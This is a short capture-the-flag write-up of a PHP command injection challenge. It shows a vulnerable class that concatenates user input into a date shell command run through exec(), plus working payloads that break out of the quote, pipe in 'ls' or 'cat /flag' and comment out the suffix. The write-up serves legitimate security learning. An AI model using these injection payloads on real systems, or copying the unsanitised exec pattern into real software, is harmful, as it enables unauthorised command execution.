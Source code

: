 php injection.

`http://94.237.54.30:58428/?format=%27,%20system(%22ls%22),%20%27`

The vulnerable code snippet:

```
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

I had to do the following:
- close the single quote character that the date command opens
- then get my payload to execute without errors
- make it ignore the suffix that is always added after my payload

`%a' | cat /flag #`
With `%a'` the command becomes a valid one (`date '+%a'`).
Then I pipe my command (`| cat /flag`)
Finally I use `#` to make it ignore the suffix

How did I know the flag was at `/flag`? Because of the following line in the Dockerfile:
`COPY flag /flag`

(I suppose one could pipe `find` or something to search for it)
(I used Postman btw, as adding to the URL was a torture)

![image](https://github.com/ups-mega-hard/writeups/assets/162111822/921f2d45-2303-4c7c-a2c8-a285f51c1d92)
